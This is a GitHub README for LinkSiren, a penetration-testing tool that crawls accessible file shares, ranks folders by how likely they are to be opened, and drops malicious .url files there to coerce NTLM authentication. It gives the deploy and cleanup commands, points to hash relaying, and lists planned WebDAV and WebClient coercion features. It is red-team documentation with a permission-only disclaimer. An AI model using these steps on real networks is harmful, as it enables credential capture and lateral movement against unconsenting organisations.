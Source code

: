 # LinkSiren

## What is this tool?
LinkSiren distributes .url files to accessible file shares to coerce NTLM authentication from hosts that open them, like [Farmer](https://github.com/mdsecactivebreach/Farmer/tree/1f37598125a92c9edf41295c6c1b7c258143968d), [Lnkbomb](https://github.com/dievus/lnkbomb), or [Slinky](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky) but with prioritized locations and scalable deployment and cleanup.

## How do I use this NOW?
```bash
git clone https://github.com/gjhami/LinkSiren.git && cd LinkSiren
python -m pip install -r requirements.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# Capture hashes
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How do I use this the \~right\~ way?
```bash
# Get the project
git clone https://github.com/gjhami/LinkSiren.git
cd LinkSiren

# Set up a virtual environment and install requirements
python -m venv .venv
source ./.venv/bin/activate # Linux
# .\.venv\Scripts\activate # Windows
python -m pip install -r requirements.txt

# 1. Create a targets file containing accessible shares, one per line, in the following format: \\server.domain.tld\share
#    I recommend crackmapexec or shareenum 
# 2. Use LinkSiren to identify the most active folders on them
#    Note: You may fine tune the --max-depth, --active-threshold, --fast, and --max-folders-per-share params as necessary
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
# 3. Use LinkSiren to deploy payloads to all of the active folders
#    --identify saves UNC paths to active folders in folder_targets.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# 4. Let the hashes come to you and relay them as you see fit :) (I recommend CrackMapExec and LdapRelayScan)
# 5. Cleanup the payload files when you're finished gathering.
#    Set targets to a file containing UNC paths of all folders where payloads were written
#    Note: If you set a custom payload name when deploying, you must set the same name here
#    --deploy saves UNC paths to deployed payloads in payload_folders.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How is this better than the other tools?
Other tools are built to place a single malicious .url file at a specified location and clean them up one at a time. But if you find yourself with access to a lot of shares you may want things to scale and you may not be in the mood to write a wrapper. LinkSiren crawls shares you currently have access to and ranks every subfolder based on the liklihood it will be opened by a user soon so you can target .url file distribution. Additionally, LinkSiren records the full UNC path of every .url file it creates, allowing for cleanup with a single command.

Summary
- Scales to an arbitrary number of .url files
- Targeted .url placement
- Single command cleanup
- Cross platform with python
  
## How will you make it even better?
I'm looking to add the following features:
- [ ] Start the WebClient service on targets using searchConnector-ms and library-ms files (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#start-the-webclient-service) and [Farmer Source Code](https://github.com/mdsecactivebreach/Farmer/blob/main/crop/Crop/Crop.cs))
- [ ] Coerce HTTP authentication with WebDAV connection strings (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#abuse))
- [ ] Add a progress bar for share crawling
- [ ] Enable ticket based authnentication (Kerberos)
- [ ] Multithreading/Multiprocessing for faster share crawling

## Note
This tools is designed for ethical hacking and penetration testing. It should be used exclusively on networks where explicit, written permission has been granted for testing. I accept no responsibility for the safety or effectiveness of this tool. Please don't sue me.
